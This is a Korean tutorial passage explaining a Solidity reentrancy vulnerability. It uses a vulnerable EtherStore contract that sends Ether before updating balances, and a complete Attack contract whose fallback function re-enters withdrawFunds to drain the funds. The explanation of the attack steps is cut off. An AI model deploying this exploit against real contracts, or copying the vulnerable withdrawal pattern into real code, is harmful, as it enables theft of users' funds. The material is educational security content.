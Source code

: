 아래 샘플코드 EtherStore.sol 은 매주 1 이더를 인출할 수 있게 예금자에게 허락함  
```
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() external payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
        require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
```
위 컨트랙트는 2개의 public 함수가 있음. depositFunds, withdrawFund  
depositFunds 는 보낸자의 잔액을 증가시키고  
withdrawFunds 는 보낸자가 인출할 수 있는 wei 의 양을 구체화함  
이 함수는 인출를 위해서 요청된 양이 1 이더보다 작거나  
인출이 지난 주에 없었을때에만 이루어짐  

위 코드의 취약점을 이용해서 공격자가 아래의 컨트랙트를 만들없음 Attack.sol  
```
import "EtherStore.sol";

contract Attack {
  EtherStore public etherStore;

  // intialize the etherStore variable with the contract address
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function attackEtherStore() external payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```
공격이 어떻게 이루어지나?  
첫째, 공격자가 악의적인 컨트랙트를 만든다(예 0x0...123)  